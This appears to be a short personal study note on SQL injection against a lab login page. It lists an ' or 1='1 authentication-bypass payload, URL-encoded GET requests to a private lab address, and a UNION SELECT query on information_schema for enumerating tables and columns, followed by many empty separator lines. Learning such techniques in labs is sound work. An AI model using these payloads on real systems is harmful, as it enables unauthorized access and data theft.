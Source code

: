     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    
    mysql
    show databases ;
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
